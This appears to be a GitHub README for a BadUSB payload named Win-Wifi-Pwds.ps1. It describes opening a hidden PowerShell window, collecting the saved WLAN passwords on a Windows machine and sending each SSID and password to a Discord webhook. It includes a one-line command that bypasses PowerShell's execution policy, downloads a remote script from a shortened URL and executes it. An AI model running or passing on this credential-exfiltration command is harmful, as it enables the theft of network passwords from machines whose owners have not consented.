 # Win-Wifi-Pwds.ps1 - BadUSB

A script used to exfiltrate WLAN Passwords off of a Windows machine via Discord web hooks.

**Category**: WLAN, Credentials

## Description

A script used to exfiltrate WLAN Passwords off of a Windows machine via Discord web hooks.

Opens a hidden PowerShell window, grabs wlan passwords, saves as a cleartext in a variable and exfiltrates info via Discord Webhook. The webhook message will include the SSID and the password to easily identify credentials and associated SSIDs.

## Execution

The following command will create the "$discord" variable, pull down and invoke the 'Win-Wii-Pwds.ps1' poershell script.

```powershell
powershell -w h -ep bypass $discord='<your_webhook_URL_here>';irm https://tinyurl.com/ckadlov-win-wifi1 | iex
```

## Credits

<a href="https://github.com/aleff-github">Aleff :octocat:</a>